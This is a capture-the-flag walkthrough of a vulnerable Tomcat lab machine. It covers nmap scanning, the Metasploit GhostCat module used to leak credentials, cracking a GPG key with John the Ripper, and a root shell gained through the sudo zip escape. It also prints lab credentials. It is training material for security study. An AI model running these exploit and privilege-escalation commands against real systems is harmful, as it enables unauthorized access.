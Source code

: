 # Data Gathering

### NMAP Result

```
nmap IP -sV -T4
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-08 19:23 PST
Nmap scan report for 10.10.95.16
Host is up (0.38s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.94 seconds

```

# Exploitation

Using metasploit we can use the tomcat_ghostcat exploit to gain access to this box

```
msfconsole
use auxiliary/admin/http/tomcat_ghostcat 
set rhost = IP
exploit
```

### Result 

At the bottom of the output we can use the credentials to login in the ssh
```
<description>
    Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
</description>
```


## Flag 1

```
cat /home/merlin/user.txt
```

# Privilege Escalation

Using the 'ls' command we can see that /home/skyfuck have a credentials.pgp and tryhackme.asc. I downloaded the tryhackme.asc to my machine and tried to crack it using john the ripper

First we are going convert this file using gpg2john
```
gpg2jogn tryhackme.asc > hash
```
Now it is converted we can now use john to bruteforce this file. I am using the rockyou wordlist to crack this file
```
john --wordlist=/path/to/rockyou.txt hash
```
I have successfully cracked this file
```
tryhackme:alexandru:::tryhackme <stuxnet@tryhackme.com>::raw_gpg

1 password hash cracked, 0 left
```
Now we have the passphrase all we have to do is import the key and decrypt the pgp file 
```
gpg --import tryhackme.asc
gpg -d credential.pgp
```
The result is merlin's account username:password and we can use merlins account 
```
su merlin
```
Using sudo -l we can check what we can run as root
```
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip

```
It seems like we can run zip as root so I have search gtfobins.github.io on how we can use zip to escalate 

Using there commands we can escalate to root
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

After that we have gained root privileges on the machine and we can view the second flag 
```
# whoami
root
# cd /root
# cat root.txt
```
